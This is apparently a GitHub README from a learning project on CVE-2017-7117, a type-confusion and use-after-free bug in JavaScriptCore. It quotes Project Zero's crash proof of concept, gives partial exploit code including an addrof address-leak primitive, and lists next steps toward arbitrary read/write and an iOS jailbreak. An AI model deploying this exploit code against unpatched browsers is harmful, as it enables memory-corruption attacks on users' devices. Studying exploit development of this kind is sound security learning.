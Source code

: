 # cve-2017-7117

## About the Bug

A type-confusion and UAF found in iOS 10.3.4 and earlier, Safari before 11.0.

CVE-2017-7117: [mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7117)

## Original Proof of Concept

Discovered by @lokihardt, source: [Google Project Zero](https://project-zero.issues.chromium.org/issues/42450350)

```js
function f() {
  let o = {};
  for (let i in {xx: 0}) { // i is a String
    for (i of [0]) { // i is now a number, but JIT treats as String
    }
    print(o[i]); // whoops
  }  
}

f();
```

Running the code above will cause JSC to crash.

## The Exploit

We craft a large array `arr`, that the JIT compiler will become confused into beleiving is a string. 

```js
var arr = new Uint32Array(1 * 1024 * 1024 / 4); // 1mb | 1 item == 4 bytes
arr[4] = 0xb0; // to pass checks for the member m_hashAndFlags 
```

When the reference to `i` is lost, we maintain access to the original array `arr` and can read the underlying memory.

By spraying a known value we can find this and traveerse up to locate the pointer to any object.

```js
function addrof(obj) {

    // search the freed array for this number
    var locator = 0x1337;

    // spray the freed memory with the locator
    var sprays = [];
    for (var i = 0; i < 0x1000; ++i) {
        sprays.push(i % 2 == 0 ? locator : obj);
    }

    // find the first instance of the locator
    var found = null;
    for(var i = 0; i < arr.length; i++) {
        if(arr[i] == locator) {
            found = i
            break
        }
    }

    // the pointer for the object is 3 and 2 indicies after the locator
    return found && [arr[found + 3], arr[found + 2]]

}
```

Values are accessed in memory via a `Uint32Array`, lower bits first, upper bits second.

```js
let target = {
    foo: "bar"
}

let address = addrof(target)
// address: 0x0000ffff8d178e60
```

You can verify the address is valid using `describe()`

```js
print(describe(target))
// Object: 0xffff8d178e60 with butterfly (nil) (0xffff9099bba0:[Object, {foo:0}, NonArray, Proto:0xffff909b00a0, Leaf]), ID: 244
```

## Replicate the Setup

Currently tested on:
- Ubuntu 20.04.5 LTS ARM64
- Vulnerable JavaScriptCore (JSC) from libwebkitgtk version 2.16.0
  - Build archive: [launchpad.net](https://launchpad.net/ubuntu/+source/webkit2gtk/2.16.0-1)
- LLDB for memory inspection (optional)

Does not work (yet) on iPhone 5, iOS 10.3.4. Let's find out why ...

## Next Steps?

- Craft a fake object
- Read / write arbitrary memory
- Jailbreak iOS 10?

## Important

This repository is provided as an educational resource to track my learning in exploit development. This CVE has been patched for more than 7 years. Do NOT use this for nefarious purposes, obviously.
